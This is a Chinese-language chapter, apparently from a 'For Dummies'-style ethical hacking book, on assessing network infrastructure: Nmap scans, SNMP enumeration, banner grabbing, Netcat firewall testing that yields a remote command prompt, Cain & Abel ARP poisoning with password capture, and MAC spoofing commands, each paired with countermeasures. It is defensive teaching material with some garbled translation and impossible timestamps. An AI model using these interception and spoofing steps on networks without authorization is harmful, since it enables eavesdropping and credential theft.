- 使用网络分析器评估安全性
- 防止拒绝服务攻击和基础设施漏洞

# 第 9 章
## 网络基础设施系统

为了拥有安全的操作系统和应用程序，你需要一个安全的网络。路由器、防火墙甚至通用网络主机（包括服务器和工作站）等设备必须作为安全测试过程的一部分进行评估。

存在数以千计的可能网络漏洞，以及同样数量的工具和更多的测试技术。你可能没有时间或资源来使用所有想象得到的方法对你的网络基础设施系统进行所有可能的漏洞测试。相反，你需要关注那些对你的网络产生良好整体评估的测试。我在本章中描述的测试正是此类。

通过简单地为你的网络主机安装最新的厂商软件和固件更新，你可以消除许多与网络相关的漏洞。由于许多网络基础设施系统不是公开访问的，你的网络很有可能不会来自外部的攻击。通过遵循本章描述的在网络上执行一些稳固的安全实践，你可以消除许多其他漏洞。本章概述的测试、工具和技术能为你的安全评估提供最高的价值。

你越理解理解网络协议，网络漏洞测试就越容易，因为网络协议是大多数信息安全概念的基础。如果你对网络的工作原理有点模糊，我强烈建议你找一本 Cande Leiden 和 Harald Wilkins 编写（John Wiley & Sons, Inc.）的 TCP/IP For Dummies, 6th Edition。《TCP/IP For Dummies》是帮助我建立网络概念基础的书籍之一。官方互联网协议标准页面（www.rfc-editor.org/standards）上的意见请求草（RFCs）也是一个很好的参考。

## 了解网络基础设施漏洞

网络基础设施漏洞是你信息系统中大多数技术安全的基础。这些低层漏洞影响你网络上的几乎一切，这就是为什么你必须尽可能对它们进行测试并消除它们。

你对网络基础设施进行安全测试的重点应该是发现别人可以在你的网络中看到的弱点，以便你能够量化并处理你网络的暴露程度。

许多问题与你网络基础设施的安全有关。有些问题是技术性的，你需要使用各种工具来对其进行适当评估；另一些问题可以通过敏锐的眼光和一些逻辑思维来评估。有些问题从网络外部很容易看到，而另一些则从网络内部更容易检测到。

当你评估公司的网络基础设施安全性时，你需要考虑以下内容：

- 设备（如防火墙或入侵防御系统 (IPS)）放置在网络上的位置以及它们是如何配置的。
- 外部攻击者在执行端口扫描时可以看到什么，以及他们如何利用你网络主机中的漏洞。
- 网络设计，例如互联网连接、远程访问能力、分层防御以及主机在网络上的部署。
- 已安装的安全设备（如防火墙、IPS 和防病毒软件）之间的相互作用。
- 正在使用的协议，包括已知漏洞的协议，如安全套接层 (SSL)。

- 未受保护的常见攻击端口。
- 网络主机配置。
- 网络监控和维护。

如果有人利用了上述列表中的某项或你网络安全某处的漏洞，可能会发生糟糕的事情：

- 攻击者可以发起拒绝服务（DoS）攻击，这可能会导致你的互联网连接或整个网络崩溃。
- 使用网络分析器的恶意员工可以窃取通过网络发送的电子邮件和文件中的机密信息。
- 黑客可以设置进入你网络的后门访问。
- 承包商可以通过利用跨网络的本地漏洞攻击特定的主机。

在评估你的网络基础设施安全性之前，请记住执行以下操作：

- 从外部和内部测试你的系统（即在内部网络分段和非军事化区 [DMZ] 上进行）。
- 从合作伙伴网络许可，以检查其系统是否存在可能影响你网络安全的漏洞，例如开放的端口、缺少防火墙或配置错误的路由器。

## 选择工具

在所有的安全评估中，你的网络安全测试都需要正确的工具：端口扫描器、协议分析器和漏洞评估工具。有很多优秀的商业软件、共享软件和免费软件。我在接下来的章节中描述我最喜欢的几个工具。记住，你需要多个工具，因为没有一个工具能完成你所需的一切。

如果你在寻找具有一体化封装的易用安全工具，大多数情况下物有所值——尤其是对于 Windows 平台。许多安全专业人员信任许多免费的安全工具，特别是那些运行在 Linux 和其他 Unix 操作系统上的工具。如果你有时间、耐心并愿意掌握所有的细节，这些工具中的许多将为你提供巨大价值。将免费工具的结果与商业同品的结果进行比较是明智的。我确实发现使用商业工具具有一些优势。

## 扫描器和分析器

这些扫描器几乎提供了你所需的所有端口扫描和网络测试：

- **Cain & Abel** (https://www.oxid.it/cain.html) 用于网络分析和 ARP 毒。
- **Essential NetTools** (https://www.tamos.com/products/nettools) 用于各种网络扫描功能。
- **NetScanTools** (https://www.netscans.com) 用于 ping 扫描、端口扫描。
- **Getif** (https://www.tcp.org/getif.html) 用于 SNMP 枚举。
- **Nmap** (https://nmap.org) 或 **NMapWin** (https://sourceforge.net/projects/nmapwin/) 用于操作系统指纹。
- **Savius OmniPeek** (https://www.savius.com) 用于网络分析。
- **TamoSoft CommView** (https://www.tamos.com/products/commview) 用于网络分析。
- **Wireshark** (http://wireshark.org) 用于网络分析。

## 漏洞评估

这些漏洞评估工具（以及其他工具）会测试你的网络是否存在已知漏洞：

- **GFI LanGuard** (https://www.gfi.com/products-and-solutions/network-security/gfi-langguard) 用于扫描。
- **Nexpose** (https://www.rapid7.com/products/nexpose) 一种用于漏洞测试的一一体工具。

## 扫描、探测和探测网络

在你的网络上执行后续章节所述的安全测试涉及以下基本步骤：

1. 收集信息并绘制网络地图。
2. 扫描你的系统以查看哪些在线且正在运行。
3. 确定你发现的系统中运行着什么。
4. 尝试渗透你发现的系统（如果你选择的话）。

每个网卡驱动程序以及大多数操作系统（包括 Windows、Linux 以及防火墙和路由器）中的 TCP/IP 实现都有特性，在扫描、探测和探测系统时产生不同的行为。这些不同的行为会导致系统产生不同的响应，包括从误报发现到 DDoS 条件。请参考管理员指南或厂商网站获取有关已知问题的详细信息和补丁。如果你修补了所有系统，就不应该出现任何问题；但要知道一切皆有可能。

## 端口扫描

端口扫描器通过扫描网络查看哪些在线且正在运行，从而向你展示网络情况。端口扫描器提供了网络布局的基本视图。它们可以帮助你识别未经授权的主机或应用程序，以及导致严重漏洞的网络配置错误。

端口扫描器提供的全局视图通常会揭示被忽视的安全问题。端口扫描器易于使用，并且无论运行什么操作系统和应用程序都可以对其进行测试。

评估整个网络系统的关键在于解释端口扫描器得到的结果。你可能会在端口上得到误报，并可能需要深入挖掘。数据报协议（UDP）扫描像该协议本身一样，可靠性低于传输控制协议（TCP），并且由于许多应用程序不知道如何响应随机 UDP 请求，往往会产生误报。


像 Nexpose 这样功能丰富的扫描器可以一次性识别端口并显示正在运行的程序。

端口扫描器的运行可能需要花费很长时间，这取决于你所拥有的主机数量、扫描的端口数量、使用的工具、系统的处理能力以及你网络链路的速度。

一个重要的意图是不仅扫描那些重要的主机。不要放过任何一个——如果起初没有，最终也会做到。如果你忽视了这些其他系统，它们往往会给你带来麻烦。此外，使用不同的工具进行相同的测试，以查看是否会得到不同的结果。并不是所有工具都能发现开放端口和漏洞。这一事实是不定的，但它是漏洞测试和渗透测试的现实。

如果你在用不同工具运行测试时结果不匹配，你可能想要进一步探索该问题。如果某些内容看起来不对（例如一组奇怪的开放端口），那么它们很可能有问题。再次测试；如果你有疑问，使用另一个工具以获得不同的视角。

如果可能，你应该对扫描器发现的每个网络主机扫描 65,534 个 TCP 端口。如果你发现可疑端口，请查找该应用程序是已知且经过授权的文档。扫描所有 65,534 个 UDP 端口也不是一个坏主意。只需知道这个过程可能会为你的扫描增加大量时间。

为了速度和简单，你可以扫描表 9-1 中列出的常用被攻击端口。请记住，这些端口中的许多也被恶意软件使用。

## 常用被攻击端口

| 端口号 | 服务 | 协议(s) |
| :--- | :--- | :--- |
| 7 | Echo | TCP, UDP |
| 19 | Chargen | TCP, UDP |
| 20 | FTP 数据 (文件传输协议) | TCP |
| 21 | FTP 控制 | TCP |
| 22 | SSH | TCP |
| 23 | Telnet | TCP |
| 25 | SMTP (简单邮件传输协议) | TCP |
| 37 | Time | TCP, UDP |
| 53 | DNS (域名系统) | UDP |

表 9-1

| 端口号 | 服务 | 协议(s) |
| :--- | :--- | :--- |
| 69 | TFTP (简单文件传输协议) | UDP |
| 79 | Finger | TCP, UDP |
| 80 | HTTP (超文本传输协议) | UDP |
| 110 | POP3 (邮局协议版本 3) | TCP |
| 111 | SUN.RPC (远程过程调用) | TCP, UDP |
| 135 | Microsoft 网络 RPC/DCE (端点映射器) | TCP, UDP |
| 137, 138, 145 | TCP/IP NetBIOS | TCP, UDP |
| 161 | SNMP (简单网络管理协议) | TCP, UDP |
| 443 | HTTPS (基于 TLS 的 HTTP) | TCP |
| 512, 513, 514 | Berkeley 服务和 r-命令 (如 rsh, reexec 和 login) | TCP |
| 1433 | Microsoft SQL Server (ms-sql-s) | TCP, UDP |
| 1434 | Microsoft SQL Monitor (ms-sql-m) | TCP, UDP |
| 1723 | Microsoft PPTP VPN | TCP |
| 3389 | Windows 终端服务器 | TCP |
| 8080 | HTTP 代理 | TCP |

## Ping 扫描

对你所有的网络子网和主机进行 ping 是发现网络上哪些主机正在运行的良好方法。Ping 扫描使用互联网控制消息协议 (ICMP) 数据包对地址范围进行 ping。图 9-1 显示了使用 Nmap 对 c 子网范围进行 ping 扫描的命令和结果。



```
OS Probe
$ nmap -sV -O 172.168.1.1-254
Starting nmap 0.40 (http://www.nmap.org/nmap) at 2004-02-07 14:03:24
Host 172.168.1.1 is up.
Host 172.168.1.2 appears to be up.
Host 172.168.1.3 appears to be up.
Host 172.168.1.4 appears to be up.
Host 172.168.1.5 appears to be up.
Host 172.168.1.6 appears to be up.
Host 172.168.1.7 appears to be up.
Host 172.168.1.8 appears to be up.
Host 172.168.1.9 appears to be up.
Host 172.168.1.10 appears to be up.
Host 172.168.1.11 appears to be up.
Host 172.168.1.12 appears to be up.
Nmap completed: 25 hosts scanned (12 hosts are up)
```


# 图 9-2：
NMapWin 中的深层端口扫描选项。



# 图 9-3:
NetScanTools 3:
操作系统指纹工具。



## 第3部分 攻击网络主机

## 针对 ping 扫描和端口扫描的防御措施

仅启用访问内部主机所需的流量 —— 尽可能远离你正尝试保护的主机 —— 并拒绝所有其他流量。此准则适用于标准端口，例如用于 HTTP 的 TCP 80 端口和用于 ping 请求的 ICMP。配置防火墙以检测随时间变化的潜在恶意行为（例如特定时间内接收到的数据包数量），并设置规则在达到特定阈值时切断攻击，例如100秒内扫描了10个端口或连续的 ping (ICMP) 请求。

大多数防火墙和 IPS（入侵防御系统）都可以检测并实时切断扫描。

限制网络流量可能会破坏你网络上的应用程序，在禁用任何类型的网络流量之前，确保你已经分析了发生的情况并理解了应用程序和协议是如何工作的。


## 扫描 SNMP

简单网络管理协议 (SNMP) 构建在几乎每个网络设备中。网络管理程序（如 HP OpenView 和 Landesk）使用 SNMP 进行主机管理。遗憾的是，SNMP 也存在安全漏洞。

## 漏洞

问题在于大多数主机都启用了 SNMP，并带有默认的读/写社区字符串。如果 SNMP 被攻破，黑客可能会收集 ARP 表、用户名和 TCP 连接来进一步攻击你的系统。如果端口扫描显示了 SNMP，你可以断定攻击者会尝试攻破系统。以下是一些用于 SNMP 枚举的工具：

- 商业工具 NetScanTools Pro
- 免费基于 GUI 的 Getif
- 免费基于文本的 SNMPUTIL (www.wtcs.org/snmp4/Tools/SNMPUTIL/SNMPUTIL.zip)

## 你可以使用 Getif 来枚举启用了 SNMP 的系统，如图 9-4 所示。


**图 9-4:** 通过 Getif 获取的通用 SNMP 信息。

在此测试中，从接入点收集了大量信息，包括型号号、固件版本和系统运行时间。如果攻击者想要利用此系统的已知漏洞，这些信息就可以被使用。通过进一步挖掘，发现了几个管理接口，如图 9-5 所示。你想要显示这些。


**图 9-5:** 通过 Getif 获取的管理接口。

## 针对 SNMP 攻击的防御措施

防止 SNMP 攻击可以简单如下：

- 如果不需要，请**在主机上禁用 SNMP**。
- 在网络边界**阻塞 SNMP 端口**（UDP 端口 161 和 162）。
> 将默认的 SNMP 读字符串从 public 和默认的写字符串从 private 改为另一个难以猜测的复杂值。

从技术上讲，升级是解决方案的一部分：将你的系统（至少）升级到 SNMP 版本 3 可以解决许多 SNMP 安全缺陷。

## 获取横幅 (Banners)

## Telnet

你可以 telnet 到开启默认 Telnet 端口（TCP 端口 23）的主机，查看是否获得登录提示或其他任何信息。只需在 Windows 或 Unix 的命令提示符中输入以下行：

```
telnet ip_address
```

你可以使用这些命令 telnet 到其他常用端口：

- SMTP:telnet ip_address 25
- HTTP:telnet ip_address 80
- POP3:telnet ip_address 110

图 9-6 显示了当你 telnet 到 25 端口时 IceWarp 服务器的特定版本信息。如需帮助，输入 telnet help 以获取使用该程序的特定指南。

## 针对获取横幅攻击的防御措施

以下步骤可以减少获取横幅攻击的机会：

- 如果提供横幅信息的服务没有业务需求，请在网络主机上禁用那些未用服务。


如果默认横幅没有业务需求，或者你可以自定义横幅，请配置网络主机的应用程序或操作系统禁用横幅，或从横幅中移除可能帮助攻击者的信息。向特定供应商获取说明。Linux 中的 TCP Wrappers 是另一种解决方案。

如果你可以自定义横幅，请咨询律师添加警告横幅。此类横幅不会阻止获取横幅，但会向入侵者显示系统是私且受监控的（假设如此）。在发生安全漏洞时，警告横幅可能有助于减少你的业务责任。这是一个示例：

> 警告！这是一个私人系统。所有使用都受到监控和记录。未经授权使用本系统可能导致法律范围内的民事和/刑事起诉。

## 测试防火墙规则

作为安全测试的一部分，你可以查看防火墙规则以确保它们按预期工作。

## 测试

几个测试可以验证你的防火墙确实执行了它所声称。你可以通过开放的端口连接防火墙，但那些本不该开放却可以开放的端口呢？

## NETCAT

你可以使用 Netcat (http://netcat.sourceforge.net) 测试特定的防火墙规则，而无需测试生产系统。例如，你可以检查防火墙是否允许 23 (Telnet) 通过。按照以下步骤查看是否可以通过 23 连接：

- 1. **在网络内部的客户端上加载 Netcat**。此步骤建立了出站连接。
- 2. **在防火墙外部的测试计算机上加载 Netcat**。此步骤允许你从外部内部进行测试。
- 3. **在客户端（内部）机器上输入 Netcat 监听命令并指定你正在测试的端口号**。如果你正在测试端口 23，输入此命令：

```
nc -l -p 23
```
- 4. **在测试（外部）机器上输入 Netcat 命令启动会话。** 你必须包含以下信息：
    * 你正在测试的主机 IP 地址。
    * 你正在测试的端口号。

如果内部（客户端）机器的 IP 地址是 10.11.12.2 且端口是 23，输入此命令：

```
nc -v 10.11.12.2 23
```

如果 Netcat 在外部机器上呈现一个新的命令提示符（这就是步骤 3 中 cmd.exe 的用途），说明你已连接并执行命令！这可以有多种用途，例如测试防火墙规则、网络地址转换 (NAT)、端口转发以及 —— 嗯，在远程系统上执行命令！

## 规则分析器

你可以找到几种防火墙分析工具，例如 SolarWinds 网络配置管理器 (https://www.solarwinds.com/network-configuration-manager 和 Firemon 风险分析器 (https://www.firemon.com/products/risk-analyzer)。这些工具允许你对所有主要供应商的防火墙规则进行深度分析，并发现漏洞和渗透测试可能无法发现的安全缺陷和低效问题。


## 防御防火墙规则库漏洞的措施

以下对策可以防止黑客测试你的防火墙：

- 执行防火墙规则库审计。我常说，你无法对你不熟悉的东西提供保护，而没有比你的防火墙规则库更好的例子了。无论你的规则库有多简单，使用自动化工具验证你的工作也百有无益。

- 将流量限制在必要范围内。在防火墙（如果需要，则是路由器）上设置规则，仅允许必须通过的流量。你可能设置了允许进入内部 Web 服务器的 HTTP 入站流量、邮件服务器的 SMTP 流量，以及用于外部网页访问的 HTTP 出站流量。

规则是针对探测你防火墙的人的最佳防御。

- 阻塞 ICMP。

这将有助于防止外部攻击者探测探你的网络以查看哪些主机处于活动状态。

- 在防火墙上启用状态数据检测（state packet inspection）。

这将阻止未受许可的网络请求。

## 分析网络数据

网络分析器允许你查看网络并分析在传输线上传输的数据，用于网络优化、安全和/或故障排除。就像实验室科学家的显微镜一样，网络分析器是任何安全专业人员的必备工具。

网络分析器通常被泛称为嗅探器（sniffers），尽管该术语实际上是特定产品的商标：Network Associates 的嗅探分析工具。

网络分析器对于嗅探网络数据包非常有用。网络分析器是运行在带有网卡的计算机上的软件。通过将网卡设置为混杂模式（promiscuous mode），它可以让网卡看到网络上的所有流量，即使不是针对网络分析器主机的流量。网络分析器执行以下功能：

- 捕获所有流量。

- 将发现的内容或解码为人类可读的格式。

- 按顺序（或你选择的方式）显示内容。

在评估安全和响应安全事件时，网络分析器可以帮助你完成以下工作：

当你的网络行为异常时，网络分析器可以帮助你追踪和隔离恶意网络使用，检测恶意木马程序，并监控和追踪 DOS 攻击。


## 网络分析程序

你可以使用以下程序之一进行网络分析：

- [Omnipeek](https://www.savius.com) 是你最喜欢的网络分析器之一。它包含了所需的一切甚至更多，而且非常易用。
- [CommView](https://www.tamos.com/products/commview) 是一个很、低成本的 Windows 替代方案。
- [Cain & Abel](https://www.oxid.it/cain.html) 是一个免费的多功能密码恢复工具，用于执行 ARP 毒、捕获数据包、破解密码等。
- [Wireshark](https://wireshark.org）（以前名为 Ethereal）是一个免费的替代方案。如果需要快速修复且附近没有笔记本，我会下载并使用这个工具。它不像许多商业产品那样易用，但如果你愿意掌握它的精髓，它非常强大。Wireshark 支持 Windows 和 macOS X。
- [ettercap](http://ettercap.github.io/) 是另一个强大的（且免费）实用，可以在 Windows、Linux 和其他操作系统上执行网络分析及其他操作。

以下是使用网络分析器的几个案例：

- 为了捕获所有流量，你必须将分析器连接到以下设备之一：
- 网络上的集线器（hub）。
- 交换机上的监控/镜像/反射端口（monitor/span/mirror port）。
- 你执行过 ARP 毒攻击的交换机。


如果你想看到类似于基于网络的 IPS 所看到的流量，你应该将网络分析器连接到防火墙外的集线器或交换机监控端口——甚至是网络分流器（network tap）。这样，你的测试可以让你查看：

- 在防火墙过滤消除流量之前进入你的网络的流量。
- 流量通过防火墙后离开你的网络的流量。



无论将网络分析器连接到防火墙内部还是外部，你都能看到结果。返回的信息量可能会让你 overwhelming，但你可以优先关注这些问题：

- 异常流量，例如：
- 异常数量的 ICMP 数据包。
- 过量的组播或广播流量。
- 策略不允许或根据你当前网络配置不应存在的协议。

- 互联网使用习惯，这有助于指出内鬼内部人员或被破坏系统的恶意行为，例如：
- 电子邮件
- 网页浏览和社交媒体
- 使用 Tor
- 即时消息和其他 P2P 流量

## 可疑的用法，例如：

- 大量丢失或过大的数据包，表明存在黑客工具或恶意软件。

- 高带宽消耗，可能指向一个不属于你的 Web 或 FTP 服务器。

- 侦察探测，例如 ICMP 请求、UDP 或 SYN 洪水。

- 隐藏服务，例如 SMTP、DNS 或 DHCP。

- 大规模扫描或攻击。

- 可疑的用法，例如-
- 大量丢失或过大的数据包。




图 9-9:
CommView 查看网络统计的界面

自上次重置以后的已时间 (ms): 00:03:00



## Netresident

| 组 | 刷新 | 过滤 | 主机允许 | 选择 | 保存 | 删除 | 事件详情 | 端口 A | 端口 B | 端口 C | 描述 |
|---|---|---|---|---|---|---|---|---|---|---|---|
| | 2015/09/25 12:26:39 | 2015/09/25 12:26:41 | Web | [Texted]... | 50335 | (a=003-a... 80 | WWW.RED.MON.COM.GET / | | | | |
| | 2015/09/25 12:26:41 | 2015/09/25 12:26:43 | Web | [Texted]... | 50313 | (55.102.201) 80 | WWW.RED.MON.COM.GET /A | | | | |
| | 2015/09/25 12:26:43 | 2015/09/25 12:26:45 | Web | [Texted]... | 50333 | (55.102.201) 80 | WWW.RED.MON.COM.GET /A | | | | |
| | 2015/09/25 12:26:45 | 2015/09/25 12:26:47 | Web | [Texted]... | 50455 | (55.102.201) 80 | WWW.RED.MON.COM.GET /A | | | | |
| | 2015/09/25 12:26:47 | 2015/09/25 12:26:49 | Web | [Texted]... | 50333 | (55.102.201) 80 | WWW.RED.MON.COM.GET /A | | | | |
| | 2015/09/25 12:26:49 | 2015/09/25 12:26:51 | Web | [Texted]... | 50468 | (55.102.201) 80 | WWW.RED.MON.COM.GET /A | | | | |
| | 2015/09/25 12:26:51 | 2015/09/25 12:26:53 | Web | [Texted]... | 50333 | (55.102.201) 80 | WWW.RED.MON.COM.GET /A | | | | |
| | 2015/09/25 12:26:53 | 2015/09/25 12:26:55 | Web | [Texted]... | 50468 | (55.102.201) 80 | WWW.RED.MON.COM.GET /A | | | | |
| | 2015/09/25 12:26:55 | 2015/09/25 12:26:57 | Web | [Texted]... | 50333 | (55.102.201) 80 | WWW.RED.MON.COM.GET /A | | | | |
| | 2015/09/25 12:26:57 | 2015/09/25 12:26:59 | Web | [Texted]... | 50468 | (55.102.201) 80 | WWW.RED.MON.COM.GET /A | | | | |
| | 2015/09/25 12:26:59 | 2015/09/25 12:26:61 | Web | [Texted]... | 50333 | (55.102.201) 80 | WWW.RED.MON.COM.GET /A | | | | |
| | 2015/09/25 12:26:61 | 2015/09/25 12:26:63 | Web | [Texted]... | 50468 | (55.102.201) 80 | WWW.RED.MON.COM.GET /A | | | | |

图 9-10:
Netresident 可以跟踪互联网流量并确保安全策略得到执行。

## 针对网络漏洞的防御措施

网络分析器可用于善意也可用于恶意。善意确保你的安全策略得到执行；恶意则可以针对你。一些防御措施可以降低使用未经授权的网络分析器的风险。请记住，没有办法可以完全防止这一点。外部攻击者或恶意用户可以通过物理或无线方式连接到你的网络，即使你使用的是以太网交换机也可以捕获网络数据包。

## 物理安全

采取足够的物理安全措施防止他人接入你的网络：
- 将坏人排除在机房和布线间之外。
- 确保交换机上的 Web、Telnet 和 Secure Shell (SSH) 管理接口安全，防止更改配置。
- 确保无人的区域（如大厅或培训室）没有活动连接。

有关物理安全的详细信息，请参见第 7 章。

## 网络分析器检测

你可以使用一些旧工具来判断网络上是否运行着分析器：
- Unix 系统使用 Sniff (http://sniff.sourceforge.net)。
- Windows 使用 Ettercap (http://ntsecurity.nu/toolbox/ettercap)。

某些工具也可以检测网络上是否运行着处于混杂模式的以太网卡。你只需在计算机上加载这些程序，如果它们发现网络存在混杂行为（Sniff 或 Ettercap），它们就会警告你。

## MAC 攻击

攻击者可以在网络上运行 ARP（地址解析协议），使你的系统看起来像是网络上的另一个主机。

## ARP 欺骗

大量的 ARP 请求可能是 ARP 欺骗攻击（也称为 ARP 投毒）的信号。运行如 sniff (https://www.monkey.org/~sniff) 或 Cain & Abel 的客户端可以更改 ARP 表——存储 IP 地址到介质控制 (MAC) 地址映射的表。更改 ARP 表会导致受害者认为在网络上通信时需要将流量发送到攻击者的计算机而非真实的目标。ARP 欺骗被用于中间人攻击。伪造的 ARP 回复可以发送到交换机，使交换机恢复广播模式并本质上将其变成集线器。当这种攻击发生时，攻击者可以嗅获通过交换机的数据包。这种安全漏洞在 TCP/IP 处理方式中是固有的。这是一个涉及黑客计算机 (Hacky) 和两个合法计算机 (Joe 和 Bob) 的典型 ARP 欺骗攻击：

1. 黑客使用 sniff、etcap 或 necat 等工具毒 Joe 和 Bob 的 ARP 缓存。
2. Joe 将 Hacky 的 MAC 地址与 Bob 的 IP 地址关联。
3. Bob 将 Hacky 的 MAC 地址与 Joe 的 IP 地址关联。
4. Joe 和 Bob 的流量首先发送到 Hacky 的 IP 地址。
5. Hacky 的网络分析器捕获 Joe 和 Bob 的流量。

如果将 Hacky 配置为路由器并转发数据包，它会将流量转发到原始目标。原始发送者和接收者完全不知道！

## 使用 Cain & Abel 进行 ARP 投毒

你可以在交换以太网网络上执行 ARP 投毒，以测试你的 IPS 或查看将交换机转换为集线器并使用网络分析器嗅获一切有多简单。

警告：ARP 投毒可能危害网络健康并导致停机。请小心！

按照以下步骤使用 Cain & Abel 进行 ARP 投毒：

1. 加载 Cain & Abel，点击 Sniffer 选项卡进入网络分析器模式。默认打开 Hosts 页面。
2. 点击 Start/Stop ARP 图标（黄黑圆圈）。ARP 投毒（Cain & Abel 对 ARP 投毒的称呼）过程启动并启用内置嗅器。
3. 如果提示，在窗口中选择网络适配器并点击 OK。
4. 点击蓝色加号 (+) 添加要执行 ARP 投毒的主机。
5. 在出现的 MAC 地址扫描窗口中，确保选择了 All Hosts in My subnet，并点击 OK。
6. 点击 ARP 选项卡（带有黄黑圆圈图标的）加载 ARP 页面。
7. 点击 Status 列标题下方（Sniffer 选项卡下方）的空白区域。此步骤重新启用蓝色加号。
8. 点击蓝色加号。New ARP Poison Routing 窗口显示第 4 步发现的主机。
9. 选择默认路由（在本例中为 10.11.12.1）。右列填充所有剩余主机，如图 9-11 所示。
10. Ctrl+点击右列中所有想要投毒的主机。

图 11：在 Cain & Abel 中选择 ARP 投毒的受害者



11. 点击 OK 开始 ARP 投毒过程。该过程可能需要几秒钟到几分钟，取决于你的网络硬件和每个主机的本地 TCP/IP 栈。

图 12 显示了我的测试网络上进行 ARP 投毒的结果。

图 12：Cain & Abel 中的 ARP 投毒结果



12. 要使用内置密码功能捕获网络中传输的来自各种主机的密码，点击 Passwords 选项卡。

前面的步骤展示了利用漏洞是多么容易，并证明从安全角度来看，以太网交换机并非想象中那么好。

第 9 章 网络基础设施服务 149


## MAC 地址欺骗

MAC 地址欺骗通过欺骗交换机使其认为你的计算机是其他设备。你只需要更改计算机的 MAC 地址并伪装成另一个用户即可。

你可以用此测试访问控制系统，例如你的 IPS/防火墙，甚至是你检查特定 MAC 地址的操作系统登录控制。

## 基于 Linux 的系统

在 Linux（以及 Unix）中，你可以使用 `ifconfig` 工具欺骗 MAC 地址。按照以下步骤操作：

- 1. 当你以 root 身份登录时，使用 `ifconfig` 输入一个禁用网络接口的命令。

在命令中插入你想要禁用的网络接口编号（通常是 eth0），如下：

```
[root@localhost root]# ifconfig eth0 down
```

- 2. 输入你想要使用的 MAC 地址的命令。

再次在命令中插入伪造的 MAC 地址和网络接口编号（eth0），如下：

```
[root@localhost root]# ifconfig eth0 hw ether
new_mac_address
```

对于 Linux 系统，你可以使用功能更丰富的工具 GNU MAC Changer (https://github.com/alobbs/macchanger)。

## WINDOWS

你可以使用 `regedit` 编辑 Windows 注册表，但我喜欢使用一个简洁的 Windows 工具 SMAC (www.klconsulting.net/smac)，它让 MAC 欺骗变得非常简单。按照以下步骤使用 SMAC：

- 1. 加载程序。

